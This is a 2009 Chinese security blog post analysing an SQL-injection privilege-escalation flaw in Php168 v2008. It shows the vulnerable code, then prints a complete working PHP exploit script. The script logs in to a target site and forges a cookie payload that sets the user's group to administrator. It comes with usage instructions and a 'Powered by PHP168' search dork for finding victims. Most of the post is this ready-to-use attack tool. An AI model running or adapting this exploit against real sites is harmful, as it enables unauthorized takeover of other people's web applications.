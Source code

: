 ```yaml
---
title: Php168 v2008 权限提升漏洞利用工具代码exploit
description: 简单分析下这个Php168v2008权限提升漏洞利用工具代码exploit：common.inc.php......
date: 2009-01-27 09:22:58
category: 漏洞信息
tags: ['PHP168', 'exploit', '漏洞信息']
post_id: 764
alias: Php168-v2008-update-user-access-exploit
ViewNums: 3181
---
```


简单分析下这个 [**Php168 v2008 权限提升漏洞利用工具代码exploit**](/blog/php168-v2008-update-user-access-exploit)：

**common.inc.php**
```php
if($_SERVER['HTTP_CLIENT_IP']){
     $onlineip=$_SERVER['HTTP_CLIENT_IP'];
}elseif($_SERVER['HTTP_X_FORWARDED_FOR']){
     $onlineip=$_SERVER['HTTP_X_FORWARDED_FOR'];
}else{
     $onlineip=$_SERVER['REMOTE_ADDR'];
}
$onlineip = preg_replace("/^([d.]+).*/", "\1", filtrate($onlineip));
```
//这个地方使用preg_replace存在着安全隐患,之前就暴过漏洞,官方修补的方法是用filtrate函数处理了下$onlineip
看一下filtrate函数是怎么处理的

**function.inc.php**

function filtrate($msg){
    $msg = str_replace('&amp;','&',$msg);
    $msg = str_replace('&nbsp;',' ',$msg);
    $msg = str_replace('"','&quot;',$msg);
    $msg = str_replace("'",'&#39;',$msg);
    $msg = str_replace("<","&lt;",$msg);
    $msg = str_replace(">","&gt;",$msg);
    $msg = str_replace(" ","   &nbsp;  &nbsp;",$msg);
    $msg = str_replace("
","",$msg);
    $msg = str_replace("   "," &nbsp; ",$msg);
    return $msg;
}

过滤了'"<等,但是没有处理

**common.inc.php**
```php
    if($usr_oltime>30||!$usr_oltime){
        $usr_oltime>600 && $usr_oltime=600;
        include(PHP168_PATH."php168/level.php");
        if( isset($memberlevel[$lfjdb[groupid]]) ){
            $SQL=",groupid=8";
            $lfjdb[money]=get_money($lfjuid);
            foreach( $memberlevel AS $key=>$value){
                if($lfjdb[money]>=$value){
                    $SQL=",groupid=$key";
                }
            }
        }else{
            $SQL="";
        }
        $db->query("UPDATE {$pre}memberdata SET lastvist='$timestamp',lastip='$onlineip',oltime=oltime+'$usr_oltime'$SQL WHERE uid='$lfjuid'");
//因为这个地方是拼接字符串的形式,所以可以使用来转义',然后利用$usr_oltime来注射:)另外要注意的是$usr_oltime有一个简单的判断的,而且还要保证sql语句的语法正确,看下我构造的语句:

UPDATE {$pre}memberdata SET lastvist='$timestamp',lastip='[]',oltime=oltime+'[+31,groupid=3,introduce=0x70757265745f74 WHERE uid=2#]'$SQL WHERE uid='$lfjuid'
```
**最后给出 Php168 v2008 权限提升漏洞利用工具代码exploit：**
```php
#!/usr/bin/php
<?php

print_r('
+---------------------------------------------------------------------------+
[Php168 <= v2008 update user access exploit](/blog/php168-v2008-update-user-access-exploit)
by puret_t
mail: puretot at gmail dot com
team: http://www.wolvez.org
dork: "Powered by PHP168"
+---------------------------------------------------------------------------+
');
/**
 * works regardless of php.ini settings
 */
if ($argc < 5) {
    print_r('
+---------------------------------------------------------------------------+
Usage: php '.$argv[0].' host path user pass
host:      target server (ip/hostname)
path:      path to php168
user:      login username
pass:      login password
Example:
php '.$argv[0].' localhost /php168/
+---------------------------------------------------------------------------+
');
    exit;
}

error_reporting(7);
ini_set('max_execution_time', 0);

$host = $argv[1];
$path = $argv[2];
$user = $argv[3];
$pass = $argv[4];

$resp = send();
preg_match('/Set-Cookie:s(passport=([0-9]{1,4})%09[a-zA-Z0-9%]+)/', $resp, $cookie);

if ($cookie)
    if (strpos(send(), 'puret_t') !== false)
        exit("Expoilt Success!
You Are Admin Now!
");
    else
        exit("Exploit Failed!
");
else
    exit("Exploit Failed!
");

function rands($length = 8)
{
    $hash = '';
    $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz';
    $max = strlen($chars) - 1;
    mt_srand((double)microtime() * 1000000);
    for ($i = 0; $i < $length; $i++)
        $hash .= $chars[mt_rand(0, $max)];

    return $hash;
}

function send()
{
    global $host, $path, $user, $pass, $cookie;

    if ($cookie) {
        $cookie[1] .= ';USR='.rands()." %2b31,groupid=3,introduce=0x70757265745f74 WHERE uid=$cookie[2]# ";
        $cmd = '';

        $message = "POST ".$path."member/userinfo.php  HTTP/1.1
";
        $message .= "Accept: */*
";
        $message .= "Accept-Language: zh-cn
";
        $message .= "Content-Type: application/x-www-form-urlencoded
";
        $message .= "User-Agent: Mozilla/4.0 (compatible; MSIE 6.00; Windows NT 5.1; SV1)
";
        $message .= "CLIENT-IP: ryat\
";
        $message .= "Host: $host
";
        $message .= "Content-Length: ".strlen($cmd)."
";
        $message .= "Connection: Close
";
        $message .= "Cookie: ".$cookie[1]."
";
        $message .= $cmd;
    } else {
        $cmd = "username=$user&password=$pass&step=2";

        $message = "POST ".$path."login.php  HTTP/1.1
";
        $message .= "Accept: */*
";
        $message .= "Accept-Language: zh-cn
";
        $message .= "Content-Type: application/x-www-form-urlencoded
";
        $message .= "User-Agent: Mozilla/4.0 (compatible; MSIE 6.00; Windows NT 5.1; SV1)
";
        $message .= "Host: $host
";
        $message .= "Content-Length: ".strlen($cmd)."
";
        $message .= "Connection: Close
";
        $message .= $cmd;
    }

    $fp = fsockopen($host, 80);
    fputs($fp, $message);

    $resp = '';

    while ($fp && !feof($fp))
        $resp .= fread($fp, 1024);

    return $resp;
}
?>
```
by Ryat
[http://www.wolvez.org](http://www.wolvez.org/)
2009-01-25

